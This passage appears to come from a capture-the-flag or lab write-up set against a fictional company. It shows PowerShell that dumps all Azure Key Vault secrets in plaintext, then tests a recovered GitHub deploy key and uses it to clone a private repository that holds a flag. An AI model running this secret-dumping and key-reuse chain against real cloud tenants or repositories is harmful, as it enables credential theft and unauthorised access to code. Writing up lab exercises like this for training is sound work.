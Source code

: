 If run try retrieving secrets, it's successful. Note that, [it could take some time due to delay according to documentation](https://learn.microsoft.com/en-us/troubleshoot/entra/entra-id/dir-dmns-obj/troubleshoot-dynamic-groups#dynamic-membership-update-issues)
```
└─PS> $secrets = Get-AzKeyVaultSecret -VaultName "Engineering-Vault1"
```
```
foreach ($secret in $secrets) {
    Write-Output "Secret Name: $($secret.Name)"
    $secretValue = Get-AzKeyVaultSecret -VaultName "Engineering-Vault1" -Name $secret.Name
    $secretValueText = $secretValue.SecretValue | ConvertFrom-SecureString -AsPlainText
    Write-Output "Secret Value: $secretValueText"
    Write-Output "Content Type: $($secretValue.ContentType)"
}
```
```
└─PS> foreach ($secret in $secrets)
<SNIP>
Secret Name: algo-github-deploy-key
Secret Value: -----BEGIN OPENSSH PRIVATE KEY-----
<REDACTED>
-----END OPENSSH PRIVATE KEY-----

Content Type: Mega-Big-Tech/algorithm-internal/

```
From the GitHub [documentation](https://docs.github.com/v3/guides/managing-deploy-keys), a deploy key is an SSH key that grants access to a single repository. They allow reading (pulling, cloning) from remote repositories and can also allow writing. In the `Content-Type` field we see path similar to git repository: `Mega-Big-Tech/algorithm-internal/`

If we didn't have this additional context in real-life, it is a good idea to test connecting to GitHub (or other code repository platform that is in use) with the private SSH keys that we may find on an engagement. The SSH key may belong to a user or it may be a deploy key. If we run the command below and GitHub responds by saying `Hi <depository-name>!`, this confirms that it's a deploy key.
```
ssh -i ./deploy-key.pem git@github.com
```

Save the key locally and clone the repository. Set the `GIT_SSH_COMMAND` environment variable for the duration of the command. The value of this environment variable specifies the SSH command to use when git needs to connect to a remote system.
```
└─$ GIT_SSH_COMMAND='ssh -i deploy-key.pem -o IdentitiesOnly=yes' git clone git@github.com:/Mega-Big-Tech/algorithm-internal
```
```
└─$ ls -lha
total 120K
drwxrwxr-x 28 kali kali 4.0K Sep 15 22:56 .
drwxrwxr-x  5 kali kali 4.0K Sep 15 22:56 ..
drwxrwxr-x  3 kali kali 4.0K Sep 15 22:56 ann
drwxrwxr-x  2 kali kali 4.0K Sep 15 22:56 ci
drwxrwxr-x  4 kali kali 4.0K Sep 15 22:56 cr-mixer
drwxrwxr-x  2 kali kali 4.0K Sep 15 22:56 docs
-rw-rw-r--  1 kali kali   33 Sep 15 22:56 flag.txt
drwxrwxr-x  5 kali kali 4.0K Sep 15 22:56 follow-recommendations-service
drwxrwxr-x  8 kali kali 4.0K Sep 15 22:56 .git
drwxrwxr-x  4 kali kali 4.0K Sep 15 22:56 graph-feature-service
drwxrwxr-x  3 kali kali 4.0K Sep 15 22:56 home-mixer
drwxrwxr-x  6 kali kali 4.0K Sep 15 22:56 navi
drwxrwxr-x  5 kali kali 4.0K Sep 15 22:56 product-mixer
drwxrwxr-x  3 kali kali 4.0K Sep 15 22:56 pushservice
-rw-rw-r--  1 kali kali   20 Sep 15 22:56 README.md
drwxrwxr-x  3 kali kali 4.0K Sep 15 22:56 recos-injector
drwxrwxr-x  5 kali kali 4.0K Sep 15 22:56 representation-manager
drwxrwxr-x  5 kali kali 4.0K Sep 15 22:56 representation-scorer
```